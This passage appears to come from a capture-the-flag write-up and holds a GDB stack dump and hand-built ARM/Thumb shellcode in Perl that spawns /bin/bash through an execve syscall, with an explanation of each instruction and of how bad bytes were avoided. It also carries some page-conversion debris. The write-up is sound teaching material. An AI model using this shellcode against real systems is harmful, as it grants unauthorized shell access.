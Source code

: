~~~~~~~~
07:0028|    0xbefffbdc --> 0xbefffd56 ("TERM=rxvt-unico"...)
[---------------------------------------------------------------------------------------------------------------------------
~~~~~~~~

Here we can see that argv[0] is on the stack and pointed to by R1, and the environment is located just after that on the stack... including the helpful SHELL environment variable. Using this, the shellcode generated would increment R1 and the stack values to get a pointer to /bin/bash in R0 for an exec syscall. Through a lot of trial and error, my shellcode eventually looked like this:

"System Message: ERROR/3 (<string>:, line 249)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block:: perl
  :number-lines:
  :filename: solve.pl

   my @sc = split//,
                "\x09\x70\x8f\xe2" .  # add    r7, pc, #9
                "\x17\xff\x2f\xe1" .  # bx     r7

                ".." .                # spacer
                ".." .                # spacer
                ".." .                # spacer
                ".." .                # spacer

                # FOR STRACE
                #"\x67\x31" .         # adds   r1, #103 ; 0x67
                # FOR GDB
                #"\x63\x31" .         # adds   r1, #99  ; 0x63
                chr($offset)."\x31" . # adds   r1, $offset

                "\x08\x1c" .          # adds   r0, r1, #0
                "\x49\x1a" .          # subs   r1, r1, r1
                "\x0b\x27" .          # movs   r7, #11
                "\x01\xdf" .          # svc 1
                '';

~~~~~~~~

Of particular note: the code starts with a jump to Thumb mode (lines 2-3). The standard code to do this adds #1 to pc, but I needed that 0x01 byte for the svc instruction for the syscall. I needed 0x05 at some point in development, and eventually settled on adding #9 to pc. The register used for this also changed several times to avoid using certain bytes. The spacer bytes (lines 5-8) are jumped over when jumping to Thumb, so they can be any values. The adds of r1 (lines 10-14) change r1 to point to the beginning of the SHELL environment variable. The values changed whether I was running in GDB or trying to strace, and I knew it would be unpredictable on the game server, so it was replaced with a variable. There were plenty of values for this variable that would cause the script to fail (other bytes from the shellcode, '.') but that was a problem that could be looked at if it came up. The next adds (line 16) is really just a mov to r0 (the first parameter to the execve syscall) without using the instruction byte needed later. The subs (line 17) clears the value of r1, giving execve a NULL argv, and the final movs (line 18) puts 11 in r7 to specify the execve syscall made with the svc instruction (line 19).
